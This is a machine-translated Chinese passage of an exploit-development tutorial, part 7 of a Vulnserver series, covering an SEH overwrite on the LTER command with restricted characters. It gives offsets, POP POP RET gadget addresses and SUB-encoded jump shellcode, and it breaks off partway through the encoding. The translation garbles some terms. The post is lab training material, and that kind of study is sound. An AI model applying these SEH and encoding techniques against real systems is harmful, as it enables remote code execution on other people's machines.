# Vulnserver —第 7 部分

> 原文：<https://infosecwriteups.com/expdev-vulnserver-part-7-bfe9fb5fd1e6?source=collection_archive---------1----------------------->


# Vulnserver —第 7 部分(LTER — SEH 覆盖+受限字符集)

这将是第七个`vulnserver`漏洞系列。这次我们将模糊和利用易受攻击的命令`LTER`。我们将通过一个`SEH`覆盖来识别一个崩溃点，并绕过受限字符集，引入我们的编码外壳代码来获得外壳访问。

# 实验室环境

*   **操作系统:** Windows 7 (x86)
*   **调试器:** OllyDbg，WinDbg (mona.py)
*   模糊器:模糊器
*   **目标:** Vulnserver — `LTER`命令(SEH 覆盖+限制字符)

**详细的实验室设置指南可以在* [*这里找到*](https://medium.com/@bigb0ss/expdev-vulnserver-part-1-ba35b9e36478)

*   Vulnserver —第一部分

# 初步侦察

让我们快速检查一下`LTER`命令是做什么的。



LTER 司令部

# 起毛

因为我们已经有了之前从[第 1 部分](https://medium.com/@bigb0ss/expdev-vulnserver-part-2-46de4dd7bdde)创建的模糊化脚本，我们可以只为`LTER`命令的模糊化器做一些小的修改。



来源:[fuzz _ lter . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/LTER%20-%20SEH%20Overwrite/fuzz_lter.py)

像往常一样，让我们用 OllyDbg 连接`vulnserver`。然后，运行我们的 fuzzer。

```
**### Running the Fuzzer**
C:\Users\bigb0ss\Desktop\scripts\LTER>python fuzz_lter.py
```

运行我们的 fuzzing 脚本几秒钟后，`vulnserver`崩溃了。从 OllyDbg 的崩溃中，我们可以清楚地看到`LTER`命令和一定数量的字符导致了崩溃。



初始碰撞

只需确认覆盖`SEH handler`的值是从 fuzzer 发送的 ASCII 值。

```
>>> "p_.?".encode('hex')
'705f2e3f'
```

## 模糊分析

从 OllyDbg 上的崩溃来看，大约是 4000 个字符导致了`LTER`命令的崩溃。这次我们将跳过 Boofuzz DB 文件分析。

# 剥削

## 初始崩溃概念验证

让我们创建一个 python 脚本来重现崩溃。



来源:[crash _ lter . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/LTER%20-%20SEH%20Overwrite/crash_lter.py)

启动`vulnserver`并将其连接到 OllyDbg。然后，运行`crash_lter.py`脚本。我们通过用“A”覆盖`SEH handler`,成功地用 PoC 脚本再现了崩溃。



再现车祸

## 检查不良/受限字符

从最初的模糊化开始，我能够注意到一些字符集不允许用于`LTER`命令。让我们试着确定哪些字符集是允许的，哪些是不允许的。

为此，我创建了一个简单的 python 脚本来生成所有十六进制字符。( [allHexChar.py](https://github.com/bigb0sss/OSCE/blob/master/scripts/allHexChar.py) )



allHexChar.py

使用生成的字符集，让我们更新我们的 PoC 以确定对于`LTER`命令是否有任何坏的/受限的字符。



来源:[bad char _ lter . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/LTER%20-%20SEH%20Overwrite/badchar_lter.py)

一旦我们运行上面的脚本，我们可以检查允许的字符。并且发现从`\x01`到`\x7F`的十六进制字符只允许用于`LTER`命令。



不良字符识别

## 寻找偏移

接下来，我们需要找到在崩溃时控制`SEH`处理器的偏移量。由于有如此多的坏字符，在这种情况下使用 pattern_create 可能有点困难。有几种不同的方法可以实现这一点，但最简单的方法之一是手动方法。(我在 [*Vulnserver —第五部分(HTER — EIP 覆盖)*](https://medium.com/@bigb0ss/expdev-vulnserver-part-5-10942c8c4395) 中详细介绍了这一点*。)*



来源:[offset _ liter . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/LTER%20-%20SEH%20Overwrite/offset_lter.py)

我们可以在 3520 找到偏移量来控制`SEH`处理器。



确认偏移

现在，我们都准备好在碰撞时控制`SEH`。

## 寻找流行音乐

对于典型的`SEH`覆盖漏洞利用，我们需要找到`POP POP RET`指令小工具。我们将使用 mona.py 的`seh`命令在 vulnserver 应用程序的 dll 中搜索`POP POP RET`。首先，将`vulnserver`连接到 WinDbg 并运行以下命令:

```
**### Mona.py Finding "POP POP RET"**!py mona seh -cm safeseh=off -cp nonull,ascii -o -cpb '\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'** We can use '-cpb' flag to specify which characters are restricted/bad*...snip...
[+] Results : 
**0x6250160a** |   0x6250160a : pop esi # pop ebp # ret  | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\bigb0ss\Desktop\software\vulnserver\essfunc.dll)
**0x6250172b** |   0x6250172b : pop edi # pop ebp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\bigb0ss\Desktop\software\vulnserver\essfunc.dll)
**0x6250195e** |   0x6250195e : pop edi # pop ebp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\bigb0ss\Desktop\software\vulnserver\essfunc.dll)
**0x6250120b** |   0x6250120b : pop ecx # pop ecx # ret  | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\bigb0ss\Desktop\software\vulnserver\essfunc.dll)
    Found a total of 4 pointers
```

让我们使用找到的`POP POP RET`小工具之一。在我们的例子中，我们将使用`0x6250120b`。更新 PoC 脚本。



来源:[pop-pop-ret _ lter . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/LTER%20-%20SEH%20Overwrite/pop-pop-ret_lter.py)

并再次将 vulnserver 附加到 OllyDbg，并在`0x6250120b`地址设置一个断点。



断点

当我们运行 PoC 脚本时，我们确实碰到了`POP POP RET`地址，即断点。一旦我们允许异常处理程序，我们将在`nSEH`位置到达我们控制的 4 字节缓冲区。



RET 指令后的地址

## #1 阶段外壳代码—条件 JMP (nSEH)

有了这 4 个字节的空间，我们想从`nSEH`(下一个`SEH`)跳到任何内存位置。正如你可能已经注意到的，我们不能使用像`\xEB\x80`这样的普通短跳转来跳转到我们控制缓冲区的位置，因为`\xEB`对这个命令来说是一个坏字符。我们需要有点创意。

我们可以使用零标志(ZF)来利用条件跳转。


来源:http://unixwiz.net/techtips/x86-jumps.html

`JZ` (=零跳转)和`JNZ` (=非零跳转)指令分别只占用`\x74`和`\x75`各 1 个字节。我们能做的是，因为我们不知道在异常处理程序开始后，我们的寄存器是否会把 ZF 设为 0，我们可以把这两个条件转移指令一个接一个地放进去；因此，无论(ZF == 0 或 ZF！= 0)跳转将会发生。

```
**### Conditional Jump**\x75\x08         **; JNZ SHORT [+0x10] = Jump if ZF is not 0**
\x74\x06         **; JZ SHORT [+0x8] = Jump if ZF is 0**
```



有条件原地跳转

在我们的例子中，这个条件跳转将成功地把我们的执行重定向到位置`0x016EFFCE`。我们将有大约 50 个字节来控制新的呼吸空间。



在条件跳转之后

*   更新了第一阶段外壳代码 PoC 脚本:[第一阶段 _lter.py](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/LTER%20-%20SEH%20Overwrite/1st-stage_lter.py)

## #2 阶段外壳代码—编码的短 JMP

由于我们只有 50 字节的缓冲区，我们很可能引入另一个跳转指令来将指针重新定位到一个更大的区域。但是我们仍然受到字符集的限制，我们需要先做一个短的 JMP ( `\xEB\x80`)，然后可能做一个长的 JMP。

我们将使用**子编码**来规避字符限制。首先，我们需要调整当前的`ESP`寄存器，指向我们编码的外壳代码将被解码的地方。

```
**### ESP Alignment (Short JMP)**\x54             # PUSH ESP 
\x58             # POP EAX
\x66\x05\x59\x13 # ADD AX,0x1359 (*018BFFFD — 016EECA4 = 0x1359*)
\x50             # PUSH EAX
\x5C             # POP ESP
```

你可能想知道为什么我们要把`0x1359`加到`AX`上，因为我们当前的`ESP`等于`0x18BFFFD`，我们想把我们的`ESP`从最后一个“C”(`\x43`)向上对齐 2 个字节，这样我们就可以把解码后的短 JMP ( `\xEB\x80`)放在那里。



ESP 校准

接下来，我们需要在`ESP`比对之后添加子编码的短 JMP ( `\xEB\x80`)外壳代码。还是因为`\xEB`是一个坏角色。解释的编码过程如下:

```
1) Zero out the EAX
   > AND EAX,0x554e4d4a
     AND EAX,0x2a3132351) Adding 2 NOPs to \xEB\x80\x90\x90 
   > \xEB\x80\x90\x902) Covert it to big-endian 
   > 909080EB3) Hex mathematics
   > 0 - 909080EB = 0xFFFFFFFF - 0x909080EB + 1 = 0x6F6F7F154) Convert it to 
   > 0x16F6F7F155) Make the value to 0 using SUB encoding (** w/ ONLY allowed chars*)
        0x16F6F7F15
   sub  0x7F7F7F7F
   sub  0x7F7F7F7F
   sub  0x50505002
   sub  0x20203015
   -----------------
        0x00000000**### Encoded Short JMP (SUB Encoding)**\x25\x4A\x4D\x4E\x55    # Zero out EAX
\x25\x35\x32\x31\x2A    # 
\x2D\x7F\x7F\x7F\x7F    # Carving \xEB\x80\x90\x90 
\x2D\x7F\x7F\x7F\x7F    # 
\x2D\x02\x50\x50\x50    # 
\x2D\x15\x30\x20\x20    # 
\x50                    # PUSH EAX
```



编码短 JMP

一旦我们跳过外壳代码，我们可以看到短 JMP ( `\xEB\x80`)现在在我们的执行路径中被成功解码。



解码短 JMP

一旦我们通过短 JMP，我们将成功地获得大约 67 字节的缓冲区。



在第二阶段编码短 JMP 之后

*   更新了第二阶段外壳代码 PoC 脚本:[第二阶段 _lter.py](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/LTER%20-%20SEH%20Overwrite/2nd-stage_lter.py)

## #3 阶段外壳代码—长 JMP

不幸的是，我们仍然没有足够的空间来放置我们的有效载荷，比如 bind shell。有了这个新获得的 67 字节缓冲区，我们这次将引入一个长 JMP 来规避空间限制。步骤将非常类似于 **#第二阶段外壳代码(短 JMP)** 。

首先，让我们再次对齐`ESP`以将`ESP`指向缓冲区的底部，我们解码后的长 JMP 将放在那里。

```
**### ESP Alignment (Long JMP)**\x54             # PUSH ESP 
\x58             # POP EAX
\x2C\x38         # ADD AL,0x38 *(0187FFF9 — 0187FFC1 = 0x39)*
\x50             # PUSH EAX
\x5C             # POP ESP
```



电潜泵校准—长 JMP

接下来，我们要放置我们的长 JMP 外壳代码。由于我们在当前位置上方有大约 3000+的空白空间，所以我们想将指针重定向到“A”s 的最开始。我们将使用`PUSH ESP` → `POP EBX` → `subtract necessary bytes` → `CALL EBX`。

```
**### Long JMP (Shellcode)**\x54                      # PUSH ESP
\x5B                      # POP EBX
\x81\xEB\xB9\x0D\x00\x00  # SUB EBX, 0xDB9 
                          # (0187FFC1 - 0187F208 = 0xDB9)
\xFF\xD3                  # CALL EBX
```



长 JMP 外壳代码

正如我们所看到的，前两个字节`\x54\x5B`是允许的字符，但是其余的需要被编码。这次我们将使用 SUB/ADD 编码技术来绕过受限字符集。

```
1) Value to Encode
   \x81\xEB\xB9\x0D *-(big-endian)->* 0DB9EB81
   \x00\x00\xFF\xD3 *-(big-endian)->* d3ff00002) SUB Encoding (d3ff0000)
   0 - d3ff0000 = 0xFFFFFFFF- d3ff0000 + 1 = 2C010000
   0x12C010000
   sub eax, 7F7F7F7F = AC818081
